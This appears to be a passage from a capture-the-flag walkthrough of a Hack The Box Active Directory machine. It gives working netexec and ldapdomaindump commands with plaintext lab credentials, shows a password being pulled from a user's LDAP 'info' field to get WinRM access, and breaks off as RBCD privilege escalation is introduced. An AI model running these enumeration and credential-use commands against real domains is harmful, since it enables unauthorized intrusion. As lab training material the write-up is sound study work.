####
####
####
### LDAP
When we run it, we get a password, also when we do the search in **dnSpy** we saw a method that carried out an *LDAP* query, so I guess the user and password are for this service. Let's test it using **netexec**:
####
```bash
netexec ldap 10.10.11.174 -u armando -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`
```
####
- Netexec Param
    - `ldap` Specifies the service to test; there are others such as *(winrm, smb)*
    - `-u` Specifies the user
    - `-p` Specifies the password
####
After running this, netexec confirms that the user armando with that password is a valid domain-level user, so we could perform an LDAP-based enumeration with the **ldapdomaindump** tool.
####
```bash
ldapdomaindump -u armando -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' dc.support.htb
```
####
- Ldapdomaindump Param
    - `-u` Specify the user
    - `-p` Specify the password
    - `dc.support.htb` Domain to dump
####
This will dump a bunch of things, such as domain-level users, groups, etc., in different formats, such as json, html, and txt. The most interesting are the users because passwords are sometimes exposed in these files, so let's start by reading the users file. We find that the **support** user has what appears to be a password in a field called info.
####
```bash
"info": [
	"Ironside47pleasure40Watchful"
]
```
####
Since we previously used **netexec** to verify if the user armando had domain-level privileges for the LDAP service, how about checking if the user `support` is valid for domain authentication with *winrm*?
####
```bash
netexec winrm 10.10.11.174 -u support -p 'Ironside47pleasure40Watchful'
```
####
- Netexec Param
    - `winrm` Specifies the service to test; there are others such as *(ldap, smb)*
    - `-u` Specifies the user
    - `-p` Specifies the password
####
As we can see, we have `Pwn3d!`, which indicates that we will be able to gain access to the machine using **evil-winrm** with these credentials.
####
####
####
## Second exploit phase (Privilage Escalation)
### RBCD
Searching for a way to elevate my privileges, I discovered that the user `support` has the `WriteProperty` permission and can also control *SPN* accounts. This occurs primarily in Active Directory and is known as RBCD *(Resource-Based Constrained Delegation)*.